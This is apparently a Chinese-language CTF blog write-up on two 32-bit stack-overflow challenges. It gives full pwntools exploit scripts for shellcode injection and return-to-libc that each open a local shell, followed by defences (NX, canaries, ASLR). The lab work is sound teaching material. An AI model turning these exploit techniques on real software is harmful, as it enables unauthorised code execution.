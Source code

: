 ```yaml
---
layout: post
title: 'H2O theme for Jekyll'
subtitle: '学会逆向'
date: 2020-4-18
categories: pwn
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: pwn
---
```


## 题目名
<h2>level1_shellcode</h2>
### 漏洞分析

![avatar](level1.png)

<h4><strong>checksec</strong> 发现什么保护都没没有开启,执行程序发现貌似提供了一个地址，而且三次执行还都在变化,由于是32位文件，所以丢进IDA中,F5</h4>
![avatar](7f9e11c2bc84884de146673bdc1d0a5.png)
<h4>在IDA ，看到先进入vunlnerable函数,后回显一句话进入vunlnerable,看看</h4>
![avatar](00ad2f69d80ed07b6343217796e2263.png)
![avatar](1df202b8523f64b146a9677403649f1.png)


<h4>看到buf,应该是栈上的变量，可知偏移量：(0x88+4),之后再填返回地址，由于可填充的字节较长，且没有任何保护，加之ida中没看到system('/bin/sh'),所以用shellcode进行攻击，即在栈区填充shellcode的代码，之后再执行，所以需要执行代码的起始地址，即buf的首地址</h4>
### 漏洞利用
代码


	Python
	from pwn import *

	context.log_level='debug'
	io = process('./level1_shellcode')
	shellcode = asm(shellcraft.sh())
	buffer=io.recvline()[14:-2]
	buf_addr = int(buffer,16)
	payload = shellcode + '\x90' * (0x88+0x4-len(shellcode)) + p32(buf_addr)
	io.sendline(payload)
	io.interactive()
	io.close()

![avatar](level11.png)

### 漏洞防护
<h4>防护手段：1.可以设置buf所在的区域（栈）不可执行，即使栈只用来存储数据，而不能执行这些数据（执行的时候是当指令了），可以开启NX保护</h4>
  <h4>2.设置检查机制，想办法在ret之前对数据设立随机值(由系统生成，传递至某一位置)，有点像关卡，比如金丝雀保护</h4>
 <h4>3.编译时使用指令，令栈不可执行 4.开启ALSR，是堆栈地址随机化，从而无法确定攻击代码的其实地址，ret的覆写值难以确定。</h4>
## 题目名
<h2>level2_return_to_libc</h2>
### 漏洞分析


![avatar](level2.png)


<h4><strong>checksec</strong>开启NX,shellcode 得凉，执行程序发现可以输入，，有与可执行文件名含libc，<strong>file</strong>一下，是动态链接文件，ldd查看依赖的共享库，之后放到IDA中，可以看到乍一看level1很像，但不一样，一开始就调用了libc库中的system函数，自然想到可能有/bin/sh,Shift F12看到/bin/sh在.data</h4>



![avatar](342b2aa1f47faddb88cec5a2d246d8c.png)


![avatar](178e3f94079c290771e4e36200ba860.png)
<h4>利用ROP，objdump分别查找对应地址</h4>

![avatar](level22.png)

![avatar](1919808-20200218101903926-1643655401.png)

<h4>借别的大佬的图理解这个漏洞</h4>
### 漏洞利用
代码
	from pwn import*

	context.log_level='debug'

	p=process('./level2_return_to_libc')


	binsh_addr=0x0804a024  #which is in .data ,it may be in libc.so at first
	#system@plt=0x08048320
	system_plt=0x08048320
	payload=(0x88+0x4)*'a'+p32(system_plt)+'cccc'+p32(binsh_addr)

	p.recvuntil('\n')
	p.send(payload)
	p.interactive()

![avatar](level23.png)

### 漏洞防护

<h4>1.ALSR开启，是动态库的装载地址不确定，从而难以确定函数地址 </h4>
<h4>2.设置检查机制，想办法在ret之前对数据设立随机值(由系统生成，传递至某一位置)，有点像关卡，比如金丝雀保护，进行栈的保护，以防止篡改ret_address</h4>
